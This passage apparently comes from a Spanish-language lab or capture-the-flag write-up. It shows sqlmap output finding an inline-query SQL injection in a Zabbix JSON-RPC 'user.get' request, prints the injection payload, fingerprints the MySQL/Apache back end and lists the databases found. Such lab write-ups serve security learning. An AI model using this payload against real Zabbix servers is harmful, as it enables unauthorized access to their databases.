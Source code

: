 ```console
[03:00:03] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[03:00:03] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[03:00:04] [WARNING] reflective value(s) found and filtering out
[03:00:04] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[03:00:04] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[03:00:04] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[03:00:04] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[03:00:05] [INFO] testing 'Generic inline queries'
[03:00:05] [INFO] (custom) POST parameter '#1*' is 'Generic inline queries' injectable
[03:00:05] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[03:00:05] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[03:00:05] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[03:00:05] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[03:00:05] [INFO] testing 'PostgreSQL > 8.1 AND time-based blind'
[03:00:05] [INFO] testing 'Microsoft SQL Server/Sybase time-based blind (IF)'
[03:00:05] [INFO] testing 'Oracle AND time-based blind'
[03:00:05] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[03:00:05] [WARNING] using unescaped version of the test because of zero knowledge of the back-end DBMS. You can try to explicitly set it with option '--dbms'
[03:00:05] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
n
sqlmap identified the following injection point(s) with a total of 62 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: inline query
    Title: Generic inline queries
    Payload: {"jsonrpc": "2.0", "method": "user.get", "params": {"selectRole": ["roleid, (SELECT CONCAT(CONCAT('qkzqq',(CASE WHEN (3281=3281) THEN '1' ELSE '0' END)),'qjvbq'))"]}, "auth": "98d789981ffe40fca9fdce196750adc56443aaeed9d3e65c95c92162e7bccdc0", "id": 1}
---
[03:00:09] [INFO] testing MySQL
[03:00:10] [INFO] confirming MySQL
[03:00:10] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 22.04 (jammy)
web application technology: Apache 2.4.52
back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
[03:00:10] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.129.120.77'
[03:00:10] [WARNING] your sqlmap version is outdated

[*] ending @ 03:00:10 /2024-12-06/
```

Vemos que existe dos bases de datos.
```
[*] information_schema
[*] zabbix
```

